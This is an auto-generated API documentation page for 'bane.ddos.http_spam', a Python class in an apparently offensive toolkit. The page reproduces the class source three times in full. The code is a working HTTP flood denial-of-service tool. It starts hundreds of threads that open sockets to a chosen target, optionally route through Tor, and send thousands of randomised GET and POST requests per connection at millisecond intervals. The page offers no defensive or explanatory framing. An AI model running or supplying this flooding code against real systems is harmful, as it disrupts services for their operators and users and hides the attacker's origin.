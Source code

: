 <body>
<main>
<article id="content">
<header>
<h1 class="title">Module <code>bane.ddos.http_spam</code></h1>
</header>
<section id="section-intro">
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">from bane.ddos.utils import *

class http_spam(DDoS_Class):
    def __init__(
        self,
        u,
        p=80,
        cookie=None,
        user_agents=None,
        method=3,
        threads_daemon=True,
        paths=[&#34;/&#34;],
        threads=256,
        post_min=5,
        post_max=10,
        post_field_max=100,
        post_field_min=50,
        timeout=5,
        round_min=1000,
        round_max=10000,
        interval=0.001,
        duration=60,
        logs=False,
        tor=False,
    ):
        self.logs = logs
        self.cookie = cookie
        self.user_agents = user_agents
        if not self.user_agents or len(self.user_agents) == 0:
            self.user_agents = ua
        self.method = method
        self.stop = False
        self.counter = 0
        self.start = time.time()
        self.target = u
        self.duration = duration
        self.port = p
        self.timeout = timeout
        self.tor = tor
        self.interval = interval
        self.round_min = round_min
        self.round_max = round_max
        self.paths = paths
        self.post_min = post_min
        self.post_max = post_max
        self.post_field_max = post_field_max
        self.post_field_min = post_field_min
        for x in range(threads):
            try:
                t = threading.Thread(target=self.attack)
                t.daemon = threads_daemon
                t.start()
            except:
                pass

    def attack(self):
        try:
            time.sleep(1)
            while True:
                if (
                    int(time.time() - self.start) &gt;= self.duration
                ):  # this is a safety mechanism so the attack won&#39;t run forever
                    break
                if self.stop == True:
                    break
                try:
                    s = socks.socksocket(socket.AF_INET, socket.SOCK_STREAM)
                    if self.tor == False:
                        s.settimeout = self.timeout
                    if self.tor == True:
                        s.setproxy(socks.PROXY_TYPE_SOCKS5, &#34;127.0.0.1&#34;, 9050, True)
                    s.connect((self.target, self.port))
                    if (self.port == 443) or (self.port == 8443):
                        s = ssl.wrap_socket(s, ssl_version=ssl.PROTOCOL_TLSv1)
                    for l in range(random.randint(self.round_min, self.round_max)):
                        if self.method == 3:
                            ty = random.randint(1, 2)
                        else:
                            ty = self.method
                        if ty == 1:
                            req = &#34;GET&#34;
                        else:
                            req = &#34;POST&#34;
                        m = setup_http_packet(
                            self.target,
                            ty,
                            self.paths,
                            self.post_field_min,
                            self.post_field_max,
                            self.post_min,
                            self.post_max,
                            self.cookie,
                            self.user_agents,
                        )
                        try:
                            if self.stop == True:
                                break
                            s.send(m.encode(&#34;utf-8&#34;))
                            self.counter += 1
                            if self.logs == True:
                                sys.stdout.write(
                                    &#34;\rRequest: {} | Type: {} | Bytes: {}   &#34;.format(
                                        self.counter, req, len(m)
                                    )
                                )
                                sys.stdout.flush()
                                # print(&#34;Request: {} | Type: {} | Bytes: {}&#34;.format(http_counter,req,len(m)))
                            time.sleep(self.interval)
                        except:
                            break
                        time.sleep(self.interval)
                    s.close()
                except:
                    pass
                time.sleep(0.1)
            self.kill()
        except:
            pass</code></pre>
</details>
</section>
<section>
</section>
<section>
</section>
<section>
</section>
<section>
<h2 class="section-title" id="header-classes">Classes</h2>
<dl>
<dt id="bane.ddos.http_spam.http_spam"><code class="flex name class">
<span>class <span class="ident">http_spam</span></span>
<span>(</span><span>u, p=80, cookie=None, user_agents=None, method=3, threads_daemon=True, paths=['/'], threads=256, post_min=5, post_max=10, post_field_max=100, post_field_min=50, timeout=5, round_min=1000, round_max=10000, interval=0.001, duration=60, logs=False, tor=False)</span>
</code></dt>
<dd>
<div class="desc"></div>
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">class http_spam(DDoS_Class):
    def __init__(
        self,
        u,
        p=80,
        cookie=None,
        user_agents=None,
        method=3,
        threads_daemon=True,
        paths=[&#34;/&#34;],
        threads=256,
        post_min=5,
        post_max=10,
        post_field_max=100,
        post_field_min=50,
        timeout=5,
        round_min=1000,
        round_max=10000,
        interval=0.001,
        duration=60,
        logs=False,
        tor=False,
    ):
        self.logs = logs
        self.cookie = cookie
        self.user_agents = user_agents
        if not self.user_agents or len(self.user_agents) == 0:
            self.user_agents = ua
        self.method = method
        self.stop = False
        self.counter = 0
        self.start = time.time()
        self.target = u
        self.duration = duration
        self.port = p
        self.timeout = timeout
        self.tor = tor
        self.interval = interval
        self.round_min = round_min
        self.round_max = round_max
        self.paths = paths
        self.post_min = post_min
        self.post_max = post_max
        self.post_field_max = post_field_max
        self.post_field_min = post_field_min
        for x in range(threads):
            try:
                t = threading.Thread(target=self.attack)
                t.daemon = threads_daemon
                t.start()
            except:
                pass

    def attack(self):
        try:
            time.sleep(1)
            while True:
                if (
                    int(time.time() - self.start) &gt;= self.duration
                ):  # this is a safety mechanism so the attack won&#39;t run forever
                    break
                if self.stop == True:
                    break
                try:
                    s = socks.socksocket(socket.AF_INET, socket.SOCK_STREAM)
                    if self.tor == False:
                        s.settimeout = self.timeout
                    if self.tor == True:
                        s.setproxy(socks.PROXY_TYPE_SOCKS5, &#34;127.0.0.1&#34;, 9050, True)
                    s.connect((self.target, self.port))
                    if (self.port == 443) or (self.port == 8443):
                        s = ssl.wrap_socket(s, ssl_version=ssl.PROTOCOL_TLSv1)
                    for l in range(random.randint(self.round_min, self.round_max)):
                        if self.method == 3:
                            ty = random.randint(1, 2)
                        else:
                            ty = self.method
                        if ty == 1:
                            req = &#34;GET&#34;
                        else:
                            req = &#34;POST&#34;
                        m = setup_http_packet(
                            self.target,
                            ty,
                            self.paths,
                            self.post_field_min,
                            self.post_field_max,
                            self.post_min,
                            self.post_max,
                            self.cookie,
                            self.user_agents,
                        )
                        try:
                            if self.stop == True:
                                break
                            s.send(m.encode(&#34;utf-8&#34;))
                            self.counter += 1
                            if self.logs == True:
                                sys.stdout.write(
                                    &#34;\rRequest: {} | Type: {} | Bytes: {}   &#34;.format(
                                        self.counter, req, len(m)
                                    )
                                )
                                sys.stdout.flush()
                                # print(&#34;Request: {} | Type: {} | Bytes: {}&#34;.format(http_counter,req,len(m)))
                            time.sleep(self.interval)
                        except:
                            break
                        time.sleep(self.interval)
                    s.close()
                except:
                    pass
                time.sleep(0.1)
            self.kill()
        except:
            pass</code></pre>
</details>
<h3>Ancestors</h3>
<ul class="hlist">
<li><a title="bane.ddos.utils.DDoS_Class" href="utils.html#bane.ddos.utils.DDoS_Class">DDoS_Class</a></li>
</ul>
<h3>Methods</h3>
<dl>
<dt id="bane.ddos.http_spam.http_spam.attack"><code class="name flex">
<span>def <span class="ident">attack</span></span>(<span>self)</span>
</code></dt>
<dd>
<div class="desc"></div>
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">def attack(self):
    try:
        time.sleep(1)
        while True:
            if (
                int(time.time() - self.start) &gt;= self.duration
            ):  # this is a safety mechanism so the attack won&#39;t run forever
                break
            if self.stop == True:
                break
            try:
                s = socks.socksocket(socket.AF_INET, socket.SOCK_STREAM)
                if self.tor == False:
                    s.settimeout = self.timeout
                if self.tor == True:
                    s.setproxy(socks.PROXY_TYPE_SOCKS5, &#34;127.0.0.1&#34;, 9050, True)
                s.connect((self.target, self.port))
                if (self.port == 443) or (self.port == 8443):
                    s = ssl.wrap_socket(s, ssl_version=ssl.PROTOCOL_TLSv1)
                for l in range(random.randint(self.round_min, self.round_max)):
                    if self.method == 3:
                        ty = random.randint(1, 2)
                    else:
                        ty = self.method
                    if ty == 1:
                        req = &#34;GET&#34;
                    else:
                        req = &#34;POST&#34;
                    m = setup_http_packet(
                        self.target,
                        ty,
                        self.paths,
                        self.post_field_min,
                        self.post_field_max,
                        self.post_min,
                        self.post_max,
                        self.cookie,
                        self.user_agents,
                    )
                    try:
                        if self.stop == True:
                            break
                        s.send(m.encode(&#34;utf-8&#34;))
                        self.counter += 1
                        if self.logs == True:
                            sys.stdout.write(
                                &#34;\rRequest: {} | Type: {} | Bytes: {}   &#34;.format(
                                    self.counter, req, len(m)
                                )
                            )
                            sys.stdout.flush()
                            # print(&#34;Request: {} | Type: {} | Bytes: {}&#34;.format(http_counter,req,len(m)))
                        time.sleep(self.interval)
                    except:
                        break
                    time.sleep(self.interval)
                s.close()
            except:
                pass
            time.sleep(0.1)
        self.kill()
    except:
        pass</code></pre>
</details>
</dd>
</dl>
</dd>
</dl>
</section>
</article>
<nav id="sidebar">
<h1>Index</h1>
<div class="toc">
<ul></ul>
</div>
<ul id="index">
<li><h3>Super-module</h3>
<ul>
<li><code><a title="bane.ddos" href="index.md">bane.ddos</a></code></li>
</ul>
</li>
<li><h3><a href="#header-classes">Classes</a></h3>
<ul>
<li>
<h4><code><a title="bane.ddos.http_spam.http_spam" href="#bane.ddos.http_spam.http_spam">http_spam</a></code></h4>
<ul class="">
<li><code><a title="bane.ddos.http_spam.http_spam.attack" href="#bane.ddos.http_spam.http_spam.attack">attack</a></code></li>
</ul>
</li>
</ul>
</li>
</ul>
</nav>
</main>
<footer id="footer">
<p>Generated by <a href="https://pdoc3.github.io/pdoc" title="pdoc: Python API documentation generator"><cite>pdoc</cite> 0.10.0</a>.</p>
</footer>
</body>
</html>